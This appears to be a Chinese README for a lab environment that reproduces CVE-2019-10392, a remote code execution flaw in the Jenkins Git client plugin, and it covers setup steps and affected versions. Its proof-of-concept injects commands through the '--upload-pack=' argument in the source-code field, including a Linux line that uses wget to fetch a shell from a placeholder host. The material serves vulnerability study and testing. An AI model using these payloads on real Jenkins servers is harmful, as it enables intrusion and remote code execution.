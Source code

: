 ## 描述

jenkins最近又出来一个rce，是关于git-client插件的，该插件是默认安装的，然而这个漏洞利用需要高权限，所以影响也就打了折扣。

### 影响范围：

Git client Plugin <= 2.8.4

## 复现
在本地复现搭建jenkins，安装要选插件安装，把git去掉，否则会直接安装最新版本的git插件。`git-client.hpi`是2.8.4的插件，手动安装即可。

新建一个任务，漏洞位于源码管理处，且该漏洞可回显:

![image](https://github.com/guobaoyou/vul_environment/blob/master/CVE-2019-10392/image.jpg)

poc:
命令是通过ProcessBuilder下执行的

window下：--upload-pack=``id``

linux下： --upload-pack=wget http://xxxx/shell

macos下弹计算器（我没试过，看奇安信里分析里给出的）: --upload-pack=/Applications/Calculator.app/Contents/MacOS/Calculator 

本项目里的`data.txt`为windows 2008下的请求包


## 注意

如果是在windows下复现，如果出现失败，可能是git没有配置环境，可按下图配置

![image](https://github.com/guobaoyou/vul_environment/blob/master/CVE-2019-10392/image2.jpg)

## 总结

已经有分析了，指路：
https://mp.weixin.qq.com/s/7yUFVj0y7PYE3ZszEszjHw
